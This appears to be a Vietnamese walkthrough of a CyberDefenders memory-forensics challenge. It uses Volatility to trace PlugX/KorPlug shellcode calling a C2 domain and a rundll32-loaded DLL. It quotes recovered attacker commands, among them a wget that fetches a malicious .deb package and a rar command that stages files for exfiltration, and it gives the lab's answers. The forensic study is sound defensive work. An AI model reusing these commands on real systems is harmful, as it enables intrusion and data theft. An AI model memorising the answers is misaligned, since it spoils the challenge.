- **Kỹ thuật GetPC (FSTENV):** Các lệnh `fld` và `fstenv` tại địa chỉ `40100c` và `40100e` là một kỹ thuật kinh điển của Shellcode để xác định vị trí hiện tại của chính nó trong bộ nhớ (GetPC). Điều này giúp Shellcode có thể tự giải mã các lớp tiếp theo.
- **Hành vi mạng (Network Callback):**
	- **`LoadLibraryA(wininet)`**: Shellcode nạp thư viện `wininet.dll` để có khả năng giao tiếp HTTP/Internet.
	- **`InternetOpenA`**: Khởi tạo một phiên làm việc với Internet.
	- **`InternetConnectA`**: Đây là "chìa khóa" của cuộc tấn công. Shellcode đang cố gắng kết nối tới máy chủ điều khiển (C2 Server).
- **Domain C2:** `files.allsafecybersec.com`
- **Port:** `80` (HTTP chuẩn)
- **Giao thức:** Sử dụng thư viện `wininet`, cho thấy mã độc sẽ tải thêm một payload khác từ URL này hoặc gửi dữ liệu đánh cắp lên đó.

Chưa thấy thông tin cần thiết


```c++
┌──(cuong_nguyen㉿Kali)-[~/Desktop/cyberdefenders.org/temp_extract_dir/ecorpwin7]
└─$ vol2 -f ecorpwin7-e73257c4.vmem --profile=Win7SP1x64 -g 0xf80002bf70a0 cmdline                  
Volatility Foundation Volatility Framework 2.6

rundll32.exe pid:   2432
Command line : RUNDLL32.EXE "C:\ProgramData\test.DLL" GnrkQr 2
************************************************************************
rundll32.exe pid:   2404
Command line : RUNDLL32.EXE "C:\ProgramData\test.DLL" GnrkQr 2
************************************************************************
                         
```


Dùng ldrmodules vì dllist không thấy


```c++
0x00000000737d0000
0x00000000737d0000 False  False  False \ProgramData\test.DLL

```


Ta dùng dlldump


```c++
vol2 -f ecorpwin7-e73257c4.vmem --profile=Win7SP1x64 dlldump -p 2432 --base=0x00000000737d0000 -D .
```





KorPlug là biến thể của Plugx


### Q13 File-&gt;ecorpwin7 What password does the attacker use to stage the compressed file for exfil? {#3517b0eb61a4801aac15f013f4fc813c}


┌──(cuong_nguyen㉿Kali)-[~/Desktop/cyberdefenders.org/temp_extract_dir/ecorpwin7]
└─$ cat mft.txt| grep -Ei "\.rar|\.zip|\.7z|\.zlip"
00000000e0: 04 65 cd c7 6d 0f 37 7a 36 b7 f1 a0 9d c5 66 ea   .e..m.7z6.....f.
2016-10-05 03:00:25 UTC+0000 2016-10-05 03:00:25 UTC+0000   2016-10-05 03:00:25 UTC+0000   2016-10-05 03:00:25 UTC+0000   ProgramData\reports.rar
Ta dùng strings 


```c++
strings -a -td -el ecorpwin7-e73257c4.vmem > ecorpwin7-e73257c4.vm.txt
strings -a -td ecorpwin7-e73257c4.vmem >> ecorpwin7-e73257c4.vm.txt

```


```c++
cat ecorpwin7-e73257c4.vm.txt | grep -A 5 -B 5 "reports.rar"
1911772606 .C:\programdata\adobe\r.exe  a -ppassword1234 -r C:\ProgramData\reports.rar *.*

```


### Q14 File-&gt;ecorpwin7 What is the IP address of the c2 server for the malicious file? {#3517b0eb61a480029177cd88ed6dec80}





Ban nãy ta thấy mã độc được giao tiếp với port 80


Có thể dùng networkpackets plugin


### Q15 File-&gt;ecorpwin7 What is the email address that sent the phishing email? {#3517b0eb61a480acb1a6c4c4e52c5e15}


lloydchung@allsafecybersec.com


Ta đã phân tích file pst từ trước nên dễ dàng lấy được thông tin này


### Q16 File-&gt;ecorpwin7 What is the name of the deb package the attacker staged to infect the E Coin Servers? {#3517b0eb61a480baa7d7ef8666f332ad}


Tiếp tục dùng strings


```c++
cat ecorpwin7-e73257c4.vm.txt | grep -Fi -A 5 -B 5 ".deb"
2052347251 wget files.allsafecybersec.com/av/linuxav.deb

```


hoặc có thể dùng mft.txt cũng được





# Tổng kết {#3527b0eb61a480ce985fead3f27a80d6}


### Plugin editbox {#3527b0eb61a4809580acf944686341f7}

- Editbox là những ô mà người dùng có thể nhấn vào để gõ như ô tài khoản, mậtk hẩu, khung chat, thanh địa chỉ
	- Trích xuất được những gì đang hiển thị hoặc đã gõ trong các ô văn bản
